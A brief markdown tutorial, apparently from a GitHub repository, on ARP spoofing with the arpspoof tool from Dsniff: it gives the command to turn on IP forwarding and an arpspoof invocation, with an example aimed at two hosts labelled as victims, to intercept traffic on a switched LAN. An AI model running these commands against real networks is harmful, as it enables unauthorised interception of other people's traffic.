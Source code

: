 # Arp-spoof

Using the Dsniff collection of tools, specifically arpspoof, we can intercept packets on a switched LAN

## Router

To make sure traffic gets forwarded to the actual targets, we have to configure Linux to act as a router:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

## Run arpspoof

Connect to C-share:

```bash
arpspoof -i <interface> -t <target> -r <host>
```

* <interface> is the network interface to use when intercepting
* <target> and <host> are victim IP's

Example:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.4.11 -r 192.168.4.16
```